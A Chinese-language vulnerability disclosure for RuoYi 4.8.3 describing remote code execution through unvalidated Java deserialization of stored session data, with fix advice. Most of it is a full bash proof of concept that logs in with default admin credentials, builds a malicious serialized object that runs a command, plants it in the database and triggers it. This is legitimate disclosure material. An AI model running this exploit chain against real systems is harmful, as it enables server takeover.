



## **漏洞标题**

若依管理系统存在命令执行漏洞

## **漏洞描述**

RuoYi 4.8.3 构建产物中，系统会将完整 OnlineSession 序列化后写入数据库表 sys_user_online.session_data，后续在会话恢复路径中又直接对该字段执行 ObjectInputStream.readObject()。 

由于这里缺少任何反序列化白名单、类型约束或完整性校验，只要攻击者能够让 sys_user_online.session_data 变成其可控字节流，并触发目标会话被读取，就可以在应用进程内执行任意反序列化 gadget 逻辑，最终导致远程代码执行（RCE）或等价的任意代码执行。

 

## **POC**

 

\#!/usr/bin/env bash

set -euo pipefail

 

BASE_URL="${BASE_URL:-http://127.0.0.1:18083}"

LOGIN_USER="${LOGIN_USER:-admin}"

LOGIN_PASS="${LOGIN_PASS:-admin123}"

MYSQL_HOST="${MYSQL_HOST:-127.0.0.1}"

MYSQL_PORT="${MYSQL_PORT:-3307}"

MYSQL_DB="${MYSQL_DB:-ry}"

MYSQL_USER="${MYSQL_USER:-root}"

MYSQL_PASS="${MYSQL_PASS:-password}"

CUSTOM_DIR="${CUSTOM_DIR:-/tmp/ruoyi-custom-cve}"

WORK_DIR="${WORK_DIR:-/tmp/ruoyi-sysonline-e2e}"

JAVA_BIN="${JAVA_BIN:-/usr/lib/jvm/java-17-openjdk-amd64/bin/java}"

MYSQL_BIN="${MYSQL_BIN:-mysql}"

 

mkdir -p "$WORK_DIR" "$CUSTOM_DIR"

COOKIE_JAR="$WORK_DIR/admin.cookies"

INDEX_HTML="$WORK_DIR/index.html"

ONLINE_HTML="$WORK_DIR/monitor_online.html"

 

echo "[+] 登录本地后台: $BASE_URL"

LOGIN_RESP="$(curl -s -c "$COOKIE_JAR" -b "$COOKIE_JAR" -X POST \

 -d "username=${LOGIN_USER}&password=${LOGIN_PASS}&validateCode=&rememberMe=false" \

 "${BASE_URL}/login")"

echo "[+] 登录响应: $LOGIN_RESP"

 

echo "[+] 访问 /index 初始化 session 中的 CSRF token"

curl -s -b "$COOKIE_JAR" "${BASE_URL}/index" -o "$INDEX_HTML"

 

curl -s -b "$COOKIE_JAR" "${BASE_URL}/monitor/online" -o "$ONLINE_HTML"

CSRF_TOKEN="$(python3 - <<'PY'

import re

for path in [

  "/tmp/ruoyi-sysonline-e2e/monitor_online.html",

  "/tmp/ruoyi-sysonline-e2e/index.html",

]:

  text=open(path,"r",encoding="utf-8",errors="ignore").read()

  m=re.search(r'<meta[^>]+name="csrf-token"[^>]+content="([^"]+)"', text)

  if not m:

​    m=re.search(r'<meta[^>]+content="([^"]+)"[^>]+name="csrf-token"', text)

  if m:

​    print(m.group(1))

​    raise SystemExit(0)

print("")

PY

)"

 

if [ -z "$CSRF_TOKEN" ]; then

 echo "[!] 未能从 /index 或 /monitor/online 页面提取 CSRF token"

 echo "[!] 可检查以下文件："

 echo "   $INDEX_HTML"

 echo "   $ONLINE_HTML"

 exit 1

fi

 

echo "[+] CSRF token: $CSRF_TOKEN"

 

cat > "${CUSTOM_DIR}/TriggerExec.java" <<'EOF'

import java.io.IOException;

import java.io.ObjectInputStream;

import java.io.Serializable;

 

public class TriggerExec implements Serializable {

  private static final long serialVersionUID = 1L;

  private final String markerPath;

 

  public TriggerExec(String markerPath) {

​    this.markerPath = markerPath;

  }

 

  private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {

​    in.defaultReadObject();

​    try {

​      Runtime.getRuntime().exec(new String[]{"/bin/touch", markerPath}).waitFor();

​    } catch (InterruptedException e) {

​      Thread.currentThread().interrupt();

​      throw new IOException(e);

​    }

  }

}

EOF

 

cat > "${WORK_DIR}/SerializeTriggerExec.java" <<'EOF'

import java.io.ByteArrayOutputStream;

import java.io.ObjectOutputStream;

 

public class SerializeTriggerExec {

  public static void main(String[] args) throws Exception {

​    if (args.length != 1) {

​      System.err.println("usage: SerializeTriggerExec <markerPath>");

​      System.exit(1);

​    }

​    ByteArrayOutputStream bos = new ByteArrayOutputStream();

​    try (ObjectOutputStream oos = new ObjectOutputStream(bos)) {

​      oos.writeObject(new TriggerExec(args[0]));

​    }

​    byte[] data = bos.toByteArray();

​    StringBuilder sb = new StringBuilder(data.length * 2);

​    for (byte b : data) {

​      sb.append(String.format("%02x", b));

​    }

​    System.out.println(sb.toString());

  }

}

EOF

 

/usr/lib/jvm/java-17-openjdk-amd64/bin/javac -cp "$CUSTOM_DIR" -d "$CUSTOM_DIR" "${CUSTOM_DIR}/TriggerExec.java"

/usr/lib/jvm/java-17-openjdk-amd64/bin/javac -cp "$CUSTOM_DIR" -d "$WORK_DIR" "${WORK_DIR}/SerializeTriggerExec.java"

 

for i in 1 2; do

 SID="poc-sysonline-trigger-${i}"

 MARK="/tmp/local_sysonline_trigger_${i}"

 rm -f "$MARK"

 

 HEX="$("$JAVA_BIN" -cp "${WORK_DIR}:${CUSTOM_DIR}" SerializeTriggerExec "$MARK")"

 

 echo "[+] 写入伪造 sys_user_online 行: $SID"

 "$MYSQL_BIN" -h"$MYSQL_HOST" -P"$MYSQL_PORT" -u"$MYSQL_USER" -p"$MYSQL_PASS" "$MYSQL_DB" <<SQL

REPLACE INTO sys_user_online(sessionId, login_name, dept_name, ipaddr, login_location, browser, os, status, start_timestamp, last_access_time, expire_time, session_data)

VALUES ('${SID}','fake','audit','127.0.0.1','local','curl','linux','on_line',NOW(),NOW(),1800000,UNHEX('${HEX}'));

SELECT sessionId, OCTET_LENGTH(session_data) AS len FROM sys_user_online WHERE sessionId='${SID}';

SQL

 

 RESP="$(curl -s -b "$COOKIE_JAR" -H "X-CSRF-Token: ${CSRF_TOKEN}" -X POST \

  -d "ids=${SID}" "${BASE_URL}/monitor/online/batchForceLogout")"

 sleep 1

 

 echo "[round ${i}] ${RESP}"

 if [ -f "$MARK" ]; then

  stat -c 'HIT %n mtime=%y size=%s' "$MARK"

 else

  echo "MISS $MARK"

  exit 1

 fi

done

 

echo "[+] 端到端验证完成"

 

 

 

 

 

 

## **修复建议**

禁止对数据库中的会话字节流直接做 Java 原生反序列化

删除 session_data -> ObjectInputStream.readObject()

不要把完整 OnlineSession 作为 Java 序列化对象持久化

 

 
